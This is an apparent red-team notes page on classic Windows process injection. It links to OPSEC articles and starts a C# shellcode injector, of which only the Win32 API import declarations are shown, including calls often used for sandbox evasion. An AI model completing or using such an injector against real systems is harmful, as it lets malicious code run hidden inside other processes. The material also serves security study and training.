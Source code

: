 ```yaml
---
description: Inject shellcode into remote process's virtual address space
---
```


# Process Injectors

* [https://rastamouse.me/exploring-process-injection-opsec-part-1/](https://rastamouse.me/exploring-process-injection-opsec-part-1/)
* [https://rastamouse.me/exploring-process-injection-opsec-part-2/](https://rastamouse.me/exploring-process-injection-opsec-part-2/)




## Classic Process Injection



### C\# DLL via Win32 API

* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Injector/Program.cs](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Injector/Program.cs)

Using standard *Win32 API* trio:

* [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
* [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
* [CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)

{% code title="ProcessInjector.cs" %}
```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ProcessInjector
{
    public class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);
```